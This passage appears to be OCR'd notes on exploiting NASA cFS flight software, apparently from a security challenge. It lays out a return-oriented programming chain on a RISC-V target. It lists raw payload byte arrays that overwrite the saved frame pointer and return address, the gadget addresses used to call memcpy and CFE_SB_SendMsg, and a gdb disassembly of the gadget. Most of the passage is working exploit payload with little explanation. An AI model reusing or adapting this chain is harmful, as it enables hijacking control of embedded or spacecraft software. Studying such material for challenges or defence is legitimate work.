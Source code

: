     stackframeptr:  0x9c,0x7c,0xf9,0x93,
    returnaddress:  0x58,0xc4,0x2d,0x69,
    tlm_header:     0x03,0x66,0xc0,0x00,0x00,0x45,0x00,0x00,0x00,0x00,0x00,0x00,
    NOTHING:        0x5c,0x5d,0x5e,0x5f,0x60,0x61,0x62,0x63,0x64,0x65,0x66,0x67,0x68,0x69,0x6a,0x6b,
    stackalignment: 0x96,0x78,0x2e,0x69]

```c
[0x0c,0x00,0x00,0x00,0xa0,0x7c,0xf9,0x93,0xa0,0x7f,0xf9,0x93,0x41,0x41,0x41,0x41,0x42,0x42,0x42,0x42,0x43,0x43,0x43,0x43,0x9c,0x7c,0xf9,0x93,0x58,0xc4,0x2d,0x69,0x03,0x66,0xc0,0x00,0x00,0x45,0x00,0x00,0x00,0x00,0x00,0x00,0x5c,0x5d,0x5e,0x5f,0x60,0x61,0x62,0x63,0x64,0x65,0x66,0x67,0x68,0x69,0x6a,0x6b,0x96,0x78,0x2e,0x69]
```

# Step 2
copy token into token message, with memcpy to scratch space +12bytes

* source is 64 bytes somewhere in memory, likely env?
* stackframeptr(fp/s0) moves to inside of buffer for size=>a0, src=>a1, dest=>a2

[size(4), source(4), destination(4), nothing(12), stackframeptr(4), returnaddress(4), nothing(28), stackalignment(4) ]

size    = 0x00000040
src     = 0x949033a4 (this is only because I have it there from a file read)
dest    = 0x93f97fac (sp + 0x300 + 0xc)
nothing = 0x41(4),0x42(4),0x43(4)

stackframeptr   = 0x93f97c9c (is 28bytes from the first argument to memcpy, in the message)
returnaddress   = 0x692dc458 (a call to memcpy, that includes putting arguments into a0,a1,a2)
nothing         = 0x50 - 0x6b
stackalignment  = 0x692e7896 (a function epilogue that realigns stack to return to normal operation)

```c
[0x40,0x00,0x00,0x00,0xa4,0x33,0x90,0x94,0xac,0x7f,0xf9,0x93,0x41,0x41,0x41,0x41,0x42,0x42,0x42,0x42,0x43,0x43,0x43,0x43,0x9c,0x7c,0xf9,0x93,0x58,0xc4,0x2d,0x69,0x50,0x51,0x52,0x53,0x54,0x55,0x56,0x57,0x58,0x59,0x5a,0x5b,0x5c,0x5d,0x5e,0x5f,0x60,0x61,0x62,0x63,0x64,0x65,0x66,0x67,0x68,0x69,0x6a,0x6b,0x96,0x78,0x2e,0x69]
```

# Step 3
call CFE_SB_SendMsg with scratch space as argument

[tlmsgptr(4), nothing(12), calltosendmsg(4), nothing(4), stackframeptr(4), returnaddress(4), nothing(28), stackalignment(4) ]

tlmmsgptr   = 0x93f97fa0 (scratch space on stack) - put into a0
nothing     = 0x34 - 0x3f
calltosendmsg   = 0x9490119e (CFE_SB_SendMsg) - put into a5
nothing     = 0x44 - 0x47

stackframeptr   = 0x93f97ca4 (is 36bytes from the first argument to memcpy, in the message)
returnaddress   = 0x692e377c (ropgadget to get an argument and call function in a5, then return)
```c
-exec x/10i 0x692e377c
   0x692e377c <OS_Timer_NoArgCallback+24>:	lw	a5,-20(s0)
   0x692e3780 <OS_Timer_NoArgCallback+28>:	lw	a0,-36(s0)
   0x692e3784 <OS_Timer_NoArgCallback+32>:	jalr	a5
   0x692e3786 <OS_Timer_NoArgCallback+34>:	nop
   0x692e3788 <OS_Timer_NoArgCallback+36>:	lw	ra,44(sp)
   0x692e378a <OS_Timer_NoArgCallback+38>:	lw	s0,40(sp)
   0x692e378c <OS_Timer_NoArgCallback+40>:	addi	sp,sp,48
   0x692e378e <OS_Timer_NoArgCallback+42>:	ret
```
nothing         = 0x50 - 0x6b